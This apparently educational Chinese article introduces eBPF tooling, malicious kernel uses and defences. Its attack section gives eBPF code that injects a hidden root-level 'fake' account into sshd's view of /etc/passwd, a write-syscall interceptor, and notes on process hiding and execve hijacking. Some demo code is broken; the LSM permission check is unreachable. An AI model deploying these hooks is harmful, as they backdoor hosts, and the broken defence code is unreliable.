


# eBPF初识-先知社区

> **来源**: https://xz.aliyun.com/news/17046  
> **文章ID**: 17046

---

# eBPF初识

## 什么是eBPF？

1、eBPF(extended Berkeley Packet Filter)是一种Linux内核中的虚拟机技术，于2014年提出，一小群工程师从dtrace中吸收了优点，扩展了BPF提供更多的指令和结构，核心就是运行在Linux内核的虚拟机，具有JIT即时编译的功能，可将用户编写的eBPF代码编译成本地代码，重点是**不需要修改内核代码**的情况下运行功能，动态注入到内核中，从而能够保持系统稳定的同时又能自定义多种场景，常用于Linux内核调优，一些网络监控，性能监控等。

2、eBPF的应用场景：

* 网络监控：可用于捕获网络数据包，并执行特定的代码逻辑来对流量进行分析和警报。
* 安全过滤：可用于对网络数据包进行安全过滤，对恶意命令进行拦截，可以阻止恶意流量的传播。
* 性能分析：可用于收集内核的性能指标，并通过特定的接口将其可视化，对性能瓶颈进行优化。
* 虚拟化：这也是eBPF技术在云原生领域被广泛应用的原因，如Kubernetes的网络插件，容器之间的安全隔离，负载均衡等等。

## 工作原理



* BPF Program: 用户空间中的BPF程序通过编译器（如LLVM/Clang）被编译成BPF字节码（xxx.bpf）。
* BPF Bytecode:编译后的BPF字节码通过bpf()系统调用加载到内核空间。
* Verifier + JIT: 内核中的eBPF框架会对BPF字节码进行验证（Verifier），确保其安全性，并通过JIT编译成原生代码（Native Code），以便在内核中高效执行。
* Kernel Functions: 生成的原生代码可以调用内核函数来执行特定任务，如网络包处理、系统调用跟踪等。
* BPF Maps: BPF程序可以使用BPF映射（Maps）来存储数据，这些映射可以在多个BPF程序之间共享数据。
* Reader: 用户空间中的读取器可以通过bpf()系统调用来访问BPF映射中的数据，这种映射通常是键值形式存储，值通常是任意的二进制数据块。
* 用户态程序通过文件描述符FD通过地图寻址访问BPF对象，每个对象都有一个引用计数器。用户态打开、读取相应FD，对应计数器会增加。若FD关闭，引用计数器减少，当refcnt为0时，内核会释放BPF对象，即使用户态程序退出，只要refcnt不为0，该对象也不会随着用户态退出而退出。

## 常用工具

使用原生的eBPF汇编来编写跟踪系统的调用情况难度是比较大的，因此可以使用现成的工具框架简化我们的工作。

* BBC：提供了更高级的语言，允许用户采用Python、Lua等高级语言快速开发BPF程序，并且提供了更人性化函数给用户使用。
* bpftrace：高级追踪语言，适合用于快速排查和定位系统问题，支持用单行脚本的方式快速开发并执行eBPF程序。
* tcptop：实时监控和分析 TCP 流量的工具。
* cilium/eclat：提供网络连接、安全可见性和网络安全策略实施等功能，eclat帮助管理和操作eBPF程序。

# BCC工具

1、安装BCC工具

sudo apt-get install bpfcc-tools linux-headers-$(uname -r)

2、结合Python BCC提供的丰富API，使得方便利用eBPF技术进行内核态和用户态之间的交互，常用方法如下：

```
BPF(text=)：通过传入C语言编写的eBPF程序文本，创建一个BPF对象并加载该程序到内核
attach_kprobe(event, fn_name)：将一个BPF函数附加到指定的内核函数入口(kprobe)上，用于跟踪或修改内核行为
attach_kretprobe(event, fn_name)：类似于`attach_kprobe`，但它是将BPF函数附加到内核函数的返回点(retprobe)上
attach_tracepoint(tp, fn_name)：将BPF函数附加到特定的tracepoint事件上，tracepoints是内核中预定义的静态跟踪点
attach_uprobe(name, sym, fn_name):在共享库或二进制文件中的指定符号(sym)处设置用户级探针(uprobe)，以便跟踪用户空间应用程序的行为
attach_uretprobe(name, sym, fn_name):类似于`attach_uprobe`，但是是在指定函数返回时触发
trace_fields():从BPF程序中读取一条追踪记录，并以元组形式返回（任务名、PID、CPU编号、标志、时间戳、消息内容等）
get_table(name)：获取一个BPF表（如哈希表、数组等），允许与BPF程序交换数据
perf_buffer_poll()：使用perf缓冲区机制来收集来自BPF程序的数据，适用于需要高性能数据采集的场景。
```

3、用Python输出简单的进程信息示例：

```
from bcc import BPF

prog = """
#include <linux/sched.h>
int hello_world(struct pt_regs *ctx) {
    char comm[16];
    bpf_get_current_comm(&comm, sizeof(comm)); //获取正在运行的进程名字
    u64 pid_tgid = bpf_get_current_pid_tgid(); //获取当前进行ID和线程组ID
    bpf_trace_printk("Executing program: %s (PID %u)\
", comm, pid_tgid >> 32); //打印调试信息
    return 0;
}
"""
b = BPF(text=prog)
b.attach_kprobe(event=b.get_syscall_fnname("execve"), fn_name="hello_world")
print("%-18s %-16s %-6s %s" % ("TIME(s)", "COMM", "PID", "MESSAGE"))
while 1:
    try:
        (task, pid, cpu, flags, ts, msg) = b.trace_fields() #读取一条追踪记录
        print("%-18.9f %-16s %-6d %s" % (ts, task, pid, msg))
    except KeyboardInterrupt:
        exit()
```

# eBPF恶意攻击

在云原生领域下，特别是k8s等容器快速发展，eBPF的出现提供了很多的便利，能够在不改动内核的同时，将自定义代码注入到内核当中。所谓万事是一把双刃剑。这同时，肯定也会出现eBPF的恶意利用，eBPF能覆盖socket、网卡xdp、probe等功能，从而能实现内核态的篡改，比较隐蔽。

关于eBPF当中的Hook点：



eBPF可在多个关键点进行hook操作：

* 系统调用层面：在内核态与用户态的交互之间，拦截和修改系统调用的行为
* 文件系统层面：在内核态监控文件操作，修改文件的读写
* 网络层面：在内核态中功能模块交互之间，监听修改网络的交互操作

比如说，通过hook ssh进程，拿到sys\_call的id，随后劫持read操作，从而返回自己的内容，达到隐藏用户的效果。

```
#include <uapi/linux/ptrace.h>
#include <linux/sched.h>
#include <linux/bpf_common.h>
#define PROCESS_NAME_LENGTH 16

struct event_data {
    char proc_name[PROCESS_NAME_LENGTH];
    char content[256];
};
static inline bool match_target(char *target_str, const char *source_str, int str_len) {
    char tmp[str_len];
    bpf_probe_read_kernel(&tmp, sizeof(tmp), source_str);
    return !memcmp(target_str, tmp, str_len);
}

static int on_syscall_exit(struct pt_regs *ctx) {
    char buffer_content[64] = {};
    bpf_probe_read_user_str(buffer_content, sizeof(buffer_content), (void *)PT_REGS_PARM1(ctx));
    char check_string[] = "root:x:0:0:root:/root:/bin/bash\
";
    if (match_target(check_string, buffer_content, sizeof(check_string))) {
        char new_entry[] = "root:x:0:0:root:/root:/bin/bash\
fake::0:0::/root:/bin/sh\
";
        bpf_probe_write_user((void *)PT_REGS_PARM1(ctx), new_entry, sizeof(new_entry)-1);//通过bpf_probe_write_user发送修改内容
    }
    return 0;
}

int handle_process_exit(struct pt_regs *ctx) {
    struct event_data event = {};
    bpf_get_current_comm(&event.proc_name, sizeof(event.proc_name));
    if (!match_target(event.proc_name,"sshd",4))
        return 0;
    int syscall_number = PT_REGS_RC(ctx);
    if (syscall_number == 0)
        return 1;
    return 0;
}
```

阻止系统某些SysCall的调用，比如阻止写入

```
#include <linux/bpf.h>
#include <bpf/bpf_helpers.h>
#include <bpf/bpf_tracing.h>

SEC("kprobe/__x64_sys_write")
int BPF_KPROBE(kprobe_write, struct pt_regs *ctx)
{
    // 获取原始的 write 系统调用参数
    unsigned long fd = PT_REGS_PARM1(ctx);
    char __user *buf = (char __user *)PT_REGS_PARM2(ctx);
    size_t count = PT_REGS_PARM3(ctx);
    bpf_printk("Intercepted write call: fd=%lu, buf=%p, count=%zu
", fd, buf, count);
    PT_REGS_RC(ctx) = count;
    return 1;
}

char LICENSE[] SEC("license") = "GPL";
```

隐藏进程、劫持程序的执行等操作也是eBPF轻而易举达到的：

1、当使用 ps 命令查看系统上的进程列表时，可以通过修改 /proc/pid/ 目录下的信息来隐藏特定的进程。这意味着你可以改变这些目录中的内容，使得 ps 或者其他依赖于 /proc/ 文件系统的工具无法看到你想要隐藏的进程。

2、在程序调用 execve 时更改可执行文件名，从而劫持执行：当一个程序尝试通过 execve 调用来启动一个新的可执行文件时，你可以拦截这个调用并修改传递给 execve 的参数，如文件名或路径。这样，你可以让程序运行一个完全不同的可执行文件，而不是它原本意图运行的那个文件。这种技术可以用于重定向执行流，使攻击者能够控制目标程序的行为

# 防御

1、禁止非特权用户调用bpf，在/proc/sys/kernel/unprivileged\_bpf\_disabled里，可通过执行sysctl kernel.unprivileged\_bpf\_disabled=1来修改配置。

* 值为0表示允许非特权用户调用bpf
* 值为1表示禁止非特权用户调用bpf且该值不可再修改，只能重启后修改
* 值为2表示禁止非特权用户调用bpf，可以再次修改为0或1

2、启用并配置 BPF Verifier

* 严格的验证规则：Linux 内核中的 BPF verifier 自动检查所有加载的 eBPF 程序，确保它们不会导致内核崩溃或执行非法操作。虽然它不能阻止所有类型的恶意行为，但它确实能阻止大多数明显的滥用尝试。
* 增强的 BPF verifier 配置：考虑使用更严格的内核编译选项来增强 BPF verifier 的安全性。

3、监控，linux系统所有的调用都离不开syscall，eBPF也不例外，kprobes 和 uprobes 可在内核态或用户态函数入口处设置断点，从而允许你捕获并处理系统调用。你可以使用它们来拦截 SYS\_BPF 系统调用，并记录或分析相关的参数和行为，简单的demo

```
#include <linux/bpf.h>
#include <bpf/bpf_helpers.h>
#include <bpf/bpf_tracing.h>

SEC("kprobe/__x64_sys_bpf")
int BPF_KPROBE(kprobe_sys_bpf, struct pt_regs *ctx)
{
    unsigned int cmd = (unsigned int)PT_REGS_PARM1(ctx);
    bpf_printk("Intercepted SYS_BPF call with cmd=%u
", cmd);
    return 0;
}
char LICENSE[] SEC("license") = "GPL";
```

4、配置 seccomp 规则： 你可以为特定的应用程序配置 seccomp 规则，仅允许其执行必要的系统调用，并对SYS\_BPF 调用进行特别处理。

5、Auditd，配置Audit规则，监控SYS\_BPF的调用

sudo auditctl -a always,exit -F arch=b64 -S bpf -k monitor\_bpf

6、自定义LSM模块，在 bpf 系统调用的钩子处插入你的逻辑，例如检查调用者权限、记录调用详情等，简单的demo

```
#include <linux/lsm_hooks.h>
#include <linux/security.h>
#include <linux/syscalls.h>
#include <linux/uaccess.h>

static int bpf_security_hook(int cmd, union bpf_attr *attr, unsigned int size)
{
    struct task_struct *task = current;
    char comm[TASK_COMM_LEN];

    get_task_comm(comm, task);
    printk(KERN_INFO "LSM: BPF syscall called by %s with cmd=%d
", comm, cmd);
    return 0;
    if (cmd == BPF_PROG_LOAD) {
         return -EPERM; // 拒绝加载 BPF 程序
     }
}

static struct security_hook_list my_lsm_hooks[] __lsm_ro_after_init = {
    LSM_HOOK_INIT(bpf, bpf_security_hook),
};

static int __init my_lsm_init(void)
{
    printk(KERN_INFO "LSM: LSM模块加载");
    security_add_hooks(my_lsm_hooks, ARRAY_SIZE(my_lsm_hooks), "my_lsm");
    return 0;
}

static void __exit my_lsm_exit(void)
{
    printk(KERN_INFO "LSM: LSM模块去除");
}

module_init(my_lsm_init);
//module_exit(my_lsm_exit);
MODULE_LICENSE("GPL");
MODULE_AUTHOR("fake);
MODULE_DESCRIPTION("demo");
```

# 总结

eBPF内核技术为Linux扩展提供了强大的功能，但是它也使攻击面被扩大，同样，eBPF能够用于攻击，也能够用于检测，比如通过编写eBPF做Linux的EDR，监控一下恶意程序、恶意命令的执行等等，初步认识，先有个简单的概念。

参考文章

<https://zone.huoxian.cn/d/972-linuxebpf>

<https://github.com/iovisor/bcc/blob/master/docs/reference_guide.md>
